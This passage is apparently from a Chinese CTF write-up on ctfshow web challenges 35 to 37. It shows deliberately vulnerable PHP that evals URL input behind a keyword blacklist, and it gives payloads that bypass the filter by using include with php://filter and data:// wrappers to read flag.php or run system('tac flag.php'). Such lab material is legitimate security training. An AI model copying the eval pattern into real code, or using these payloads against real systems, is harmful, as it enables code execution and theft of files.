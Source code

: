 屏蔽关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=

继续使用include构造payload：（wsm还能秒）

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web36

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-04 00:12:34
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-04 04:21:16
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }
  
}else{
  highlight_file(__FILE__);
}
```

屏蔽关键字 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]

不是哥们，数字也要屏蔽，那我改一下不就好了

继续使用include构造payload：

> url/?c=include$_GET[m]?>&m=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[m]?>&m=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web37

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
```